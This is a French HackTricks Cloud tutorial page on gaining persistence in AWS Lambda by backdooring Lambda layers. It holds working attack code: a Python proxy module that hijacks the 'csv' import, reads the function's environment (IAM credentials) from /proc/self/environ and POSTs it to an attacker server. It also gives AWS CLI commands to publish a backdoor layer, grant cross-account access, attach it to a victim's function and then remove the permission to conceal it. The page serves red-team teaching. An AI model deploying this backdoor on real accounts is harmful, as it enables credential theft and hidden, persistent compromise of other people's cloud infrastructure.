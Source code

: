 # AWS - Persistance des Couches Lambda

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Couches Lambda

Une couche Lambda est une archive de fichier .zip qui **peut contenir du code supplémentaire** ou d'autres contenus. Une couche peut contenir des bibliothèques, un [runtime personnalisé](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), des données ou des fichiers de configuration.

Il est possible d'inclure jusqu'à **cinq couches par fonction**. Lorsque vous incluez une couche dans une fonction, le **contenu est extrait dans le répertoire `/opt`** dans l'environnement d'exécution.

Par **défaut**, les **couches** que vous créez sont **privées** à votre compte AWS. Vous pouvez choisir de **partager** une couche avec d'autres comptes ou de **rendre** la couche **publique**. Si vos fonctions consomment une couche publiée par un autre compte, vos fonctions peuvent **continuer à utiliser la version de la couche après qu'elle ait été supprimée, ou après que votre permission d'accéder à la couche ait été révoquée**. Cependant, vous ne pouvez pas créer une nouvelle fonction ou mettre à jour des fonctions en utilisant une version de couche supprimée.

Les fonctions déployées en tant qu'image de conteneur n'utilisent pas de couches. Au lieu de cela, vous emballez votre runtime préféré, les bibliothèques et autres dépendances dans l'image du conteneur lorsque vous construisez l'image.

### Chemin de chargement Python

Le chemin de chargement que Python utilisera dans lambda est le suivant :
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Vérifiez comment les **deuxième** et troisième **positions** sont occupées par des répertoires où les **couches lambda** décompressent leurs fichiers : **`/opt/python/lib/python3.9/site-packages`** et **`/opt/python`**

{% hint style="danger" %}
Si un attaquant parvenait à **compromettre** une couche lambda utilisée ou **à en ajouter une** qui sera **exécutant du code arbitraire lorsqu'une bibliothèque commune est chargée**, il pourra exécuter du code malveillant à chaque invocation de lambda.
{% endhint %}

Par conséquent, les prérequis sont :

* **Vérifier les bibliothèques** qui sont **chargées** par le code des victimes
* Créer une **bibliothèque proxy avec des couches lambda** qui **exécutera du code personnalisé** et **chargera la bibliothèque originale**.

### Bibliothèques préchargées

{% hint style="warning" %}
Lors de l'abus de cette technique, j'ai rencontré une difficulté : Certaines bibliothèques sont **déjà chargées** dans l'environnement d'exécution python lorsque votre code est exécuté. Je m'attendais à trouver des choses comme `os` ou `sys`, mais **même la bibliothèque `json` était chargée**.\
Pour abuser de cette technique de persistance, le code doit **charger une nouvelle bibliothèque qui n'est pas chargée** lorsque le code est exécuté.
{% endhint %}

Avec un code python comme celui-ci, il est possible d'obtenir la **liste des bibliothèques qui sont préchargées** à l'intérieur de l'environnement d'exécution python dans lambda :
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Et voici la **liste** (vérifiez que des bibliothèques comme `os` ou `json` sont déjà présentes)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Et voici la liste des **bibliothèques** que **lambda inclut installées par défaut** : [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Détournement de Lambda Layer

Dans cet exemple, supposons que le code ciblé importe **`csv`**. Nous allons **détourner l'importation de la bibliothèque `csv`**.

Pour ce faire, nous allons **créer le répertoire csv** avec le fichier **`__init__.py`** à l'intérieur dans un chemin chargé par lambda : **`/opt/python/lib/python3.9/site-packages`**\
Ensuite, lorsque la lambda est exécutée et essaie de charger **csv**, notre fichier **`__init__.py` sera chargé et exécuté**.\
Ce fichier doit :

* Exécuter notre charge utile
* Charger la bibliothèque csv originale

Nous pouvons faire les deux avec :
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Ensuite, créez un zip avec ce code dans le chemin **`python/lib/python3.9/site-packages/__init__.py`** et ajoutez-le en tant que couche lambda.

Vous pouvez trouver ce code sur [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Le payload intégré **envoie les identifiants IAM à un serveur LA PREMIÈRE FOIS qu'il est invoqué ou APRÈS une réinitialisation du conteneur lambda** (changement de code ou lambda à froid), mais **d'autres techniques** telles que les suivantes pourraient également être intégrées :

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Couches Externes

Notez qu'il est possible d'utiliser **des couches lambda de comptes externes**. De plus, une lambda peut utiliser une couche d'un compte externe même si elle n'a pas les permissions.\
Notez également que le **nombre maximum de couches qu'une lambda peut avoir est de 5**.

Par conséquent, afin d'améliorer la polyvalence de cette technique, un attaquant pourrait :

* Introduire un backdoor dans une couche existante de l'utilisateur (rien n'est externe)
* **Créer** une **couche** dans **son propre compte**, donner **l'accès au compte de la victime** pour utiliser la couche, **configurer** la **couche** dans la Lambda de la victime et **retirer la permission**.
* La **Lambda** pourra toujours **utiliser la couche** et la **victime n'aura** aucun moyen facile de **télécharger le code de la couche** (à part obtenir un shell inversé à l'intérieur de la lambda)
* La victime **ne verra pas les couches externes** utilisées avec **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
